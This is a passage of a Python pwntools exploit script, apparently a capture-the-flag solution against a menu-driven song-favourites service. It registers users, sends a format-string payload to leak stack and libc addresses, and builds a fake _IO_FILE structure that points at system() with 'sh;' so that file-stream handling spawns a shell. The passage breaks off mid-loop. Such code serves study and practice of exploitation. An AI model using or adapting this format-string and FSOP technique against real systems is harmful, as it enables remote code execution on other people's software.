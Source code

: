 ```py
    p.sendline(passwd)


def exit_proc():
    p.recvuntil("Please enter your choice [4]: ")
    p.sendline("4")

def add_song(title, author, album):
    p.recvuntil("Please enter your choice [4]: ")
    p.sendline("2")
    p.recvuntil("Please enter a song title: ")
    p.sendline(title)    
    p.recvuntil("is from: ")
    p.sendline(author)
    p.recvuntil("is on: ")
    p.send(album)

def show():
    p.recvuntil("Please enter your choice [4]: ")
    p.sendline("3")


register("rosa", "123")
register("rosa1", "123")
login("rosa", "123")
add_song(b"a"*0x10, b"b"*0x10, b"c"*0x20) #0
# 0x7ffc2217c048 0x7ffc22116390
add_song(b" - %6$p - %52125$p", b"d"*0x10, b"e"*0x20) #1

show()
p.recvuntil("Your favorites:\n")
contents = p.recvline().split(b" - ")
stack_leak = int(contents[3], 16)
libc_leak = int(contents[4], 16)
log.info("stack leak: " + hex(stack_leak))
log.info("libc leak: " + hex(libc_leak))
ret_addr = stack_leak - 0x65db0
libc_base = libc_leak - 0x2724a
log.info("libc base: " + hex(libc_base))
system = libc_base + libc.symbols["system"]
io_list_all = libc_base + libc.symbols["_IO_list_all"]

fake_io_addr = stack_leak - 0x64e64 # TODO
fake_io_file=b"  sh;".ljust(0x8,b"\x00") 
fake_io_file+=p64(0)*3+p64(1)+p64(2)
fake_io_file=fake_io_file.ljust(0x30,b"\x00")
fake_io_file+=p64(0)
fake_io_file=fake_io_file.ljust(0x68,b"\x00")
fake_io_file+=p64(system)
fake_io_file=fake_io_file.ljust(0x88,b"\x00")
fake_io_file+=p64(libc_base+0x1d4a00)
fake_io_file=fake_io_file.ljust(0xa0,b"\x00")
fake_io_file+=p64(fake_io_addr)
fake_io_file=fake_io_file.ljust(0xd8,b"\x00")
fake_io_file+=p64(0x1cf0a0 + libc_base) # 使得可以调用 _IO_wfile_overflow
fake_io_file+=p64(fake_io_addr)

fake_io = p64(fake_io_addr)[:6]
start_idx = 0x160 # TODO
payload = ""
for i in range(6):
    byte = fake_io[i]
    val  = byte
```